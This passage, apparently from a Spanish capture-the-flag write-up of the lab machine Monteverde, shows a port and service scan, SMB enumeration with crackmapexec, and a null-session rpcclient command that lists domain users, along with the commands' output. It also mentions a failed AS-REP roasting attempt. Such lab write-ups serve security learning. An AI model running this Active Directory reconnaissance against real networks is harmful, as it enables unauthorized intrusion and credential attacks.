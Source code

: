 Entre los puertos abiertos mas relevantes podemos visualizar:

| Puerto | Servicio | Versión |
| ------ | -------- | --------|
| 53     | DNS     |  Simple DNS Plus|
| 88     | KERBEROS     |  Microsoft Windows Kerberos |
| 135   |  MSRPC     |  Microsoft Windows RPC  |
| 139   | NETBIOS     |  Microsoft Windows netbios-ssn|
| 445   |   SMB   | ?  |
| 3268   |   LDAP   |  Microsoft Windows Active Directory LDAP  |
| 5985   |  WINRM    | Microsoft HTTPAPI httpd 2.0   |



## EXPLOTACION [#](#explotacion) {#explotacion}

Como vemos que el puerto `445` esta abierto, con `crackpamexec` vamos a tratar de enumerar a lo que nos enfrentamos.

```bash
❯ crackmapexec smb 10.10.10.172
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
```

Podemos ver que estamos ante un `Windows 10`, ahora tambien vemos el dominio asociado para agregarlo a nuestro `/etc/hosts`.

```bash
❯ echo "10.10.10.172 MEGABANK.LOCAL" >> /etc/hosts
```

Como nos enfrentamos contra un `Domain Controller` podemos tratar de enumerar usuarios validos con `rpclient` a traves de un `null session`.

```bash
❯ rpcclient -U '' 10.10.10.172 -N -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]'
Guest
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
```
Guardamos las credenciales en un archivo de nombre `users.txt` y podemos tratar de efectuar un `ASREProast Attack` para tratar de obtener un `TGT - ticket granting ticket`, pero no da resultado.
